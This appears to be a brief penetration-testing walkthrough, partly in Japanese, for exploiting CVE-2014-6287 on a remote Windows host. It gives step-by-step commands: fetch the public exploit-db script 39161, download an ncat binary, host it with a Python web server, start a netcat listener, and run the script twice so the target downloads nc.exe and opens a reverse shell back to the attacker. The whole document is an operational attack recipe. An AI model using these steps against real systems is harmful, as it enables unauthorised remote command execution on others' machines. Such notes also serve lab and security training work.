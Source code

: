 # CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))

You can execute arbitrary commands on the remote Windows host.

## 1. Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

## 2. Download netcat binary file.
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）

```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

## 3. Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

## 4. Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

## 5. Execute script
The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```
